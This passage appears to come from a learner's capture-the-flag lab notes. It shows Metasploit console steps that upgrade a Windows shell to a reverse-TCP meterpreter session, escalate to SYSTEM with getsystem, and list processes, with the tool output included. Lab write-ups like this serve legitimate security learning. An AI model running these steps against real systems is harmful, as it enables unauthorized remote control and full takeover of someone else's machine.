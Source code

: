 --> not sure how to set the session just identified but I looked it up and found:
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1

--> next is to run the exlpoit, hoping it will work:
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.11.59.68:4433 
[*] Post module execution completed

--> it did, but me being inexperienced thought something was wrong as I was not immediately put into the meterpreter
--> I therefore reran the exploit and had to wait ages for ANOTHER sommand stager process
        --> likely ruined the one I had already made

--> after this finishes I will run "sessions -l" again to see which sesison it is and then use 'jump into' this process using "session -i <session_id>":
 msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         shell x64/windows                                  10.11.59.68:4444 -> 10.10
                                                               .200.63:49177 (10.10.200.
                                                               63)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JO  10.11.59.68:4433 -> 10.10
                                     N-PC                      .200.63:49211 (10.10.200.
                                                               63)
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >


--> we got the meterpreter! next up:
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User                          Path
 ---   ----  ----                ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System              x64   0
 416   4     smss.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 428   712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 488   712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 568   556   csrss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 616   608   csrss.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 624   556   wininit.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 664   608   winlogon.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 712   624   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 720   624   lsass.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe